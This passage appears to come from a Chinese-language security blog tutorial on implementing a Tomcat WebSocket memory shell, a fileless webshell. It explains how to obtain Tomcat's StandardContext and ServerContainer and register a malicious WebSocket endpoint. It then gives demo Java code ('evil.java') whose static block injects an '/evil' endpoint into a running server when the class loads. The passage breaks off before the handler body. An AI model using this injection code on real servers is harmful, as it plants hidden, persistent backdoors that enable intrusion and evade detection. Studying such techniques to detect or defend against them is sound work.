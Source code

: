 然后startInternal方法里为ServletContext添加一个过滤器`org.apache.tomcat.websocket.server.WsFilter`，它用于判断当前请求是否为WebSocket请求，以便完成握手（所以任何Tomcat都可以用[java-memshell-scanner](https://github.com/c0ny1/java-memshell-scanner)看到WsFilter）。



## Tomcat WebSocket内存马的实现

我们先来回顾一下servlet-api型内存马的实现步骤，拿Filter型举例：

1.  获取当前的StandardContext
2.  创建恶意Filter
3.  创建filterDef封装Filter对象，调用StandardContext.addFilterDef方法将filterDef添加到filterDefs
4.  创建filterMap将URL和filter进行绑定，调用StandardContext.addFilterMapBefore方法将filterMap添加到filterMaps中
5.  获取filterConfigs变量，并向其中添加filterConfig对象

既然要插入恶意Filter，那么我们就需要在Tomcat启动过程中寻找添加FIlter的方法，而filterDef、filterMap、filterConfigs都是StandardContext对象的属性，并且也有相应的add方法，那么我们就需要先获取StandardContext，再调用相应的方法。

WebSocket内存马也很类似，上一节提到了WsSci 的onStartup扫描 classpath下带有注解@ServerEndpoint的类和Endpoint子类，并且调用addEndpoint方法注册到WebSocketContainer上。那么我们应该从WebSocketContainer出发，而WsServerContainer是在StandardContext里面创建的，那么，显而易见的：

1. 获取当前的StandardContext
2. 通过StandardContext获取ServerContainer
3. 定义一个恶意类，并创建一个ServerEndpointConfig，给这个恶意类分配URI path
4. 调用ServerContainer.addEndpoint方法，将创建的ServerEndpointConfig添加进去

```java
ServerContainer container = (ServerContainer) req.getServletContext().getAttribute(ServerContainer.class.getName());
ServerEndpointConfig config = ServerEndpointConfig.Builder.create(evil.class, "/ws").build();
container.addEndpoint(config);
```

### demo

将注入内存马的操作放在static块，加载这个类即可实现内存马注入

evil.java:

```java
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.websocket.server.WsServerContainer;

import javax.websocket.*;
import javax.websocket.server.ServerContainer;
import javax.websocket.server.ServerEndpointConfig;
import java.io.InputStream;

public class evil extends Endpoint implements MessageHandler.Whole<String> {
    static {
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
        ServerEndpointConfig build = ServerEndpointConfig.Builder.create(evil.class, "/evil").build();
        WsServerContainer attribute = (WsServerContainer) standardContext.getServletContext().getAttribute(ServerContainer.class.getName());
        try {
            attribute.addEndpoint(build);
            // System.out.println("ok!");
        } catch (DeploymentException e) {
            throw new RuntimeException(e);
        }
    }
```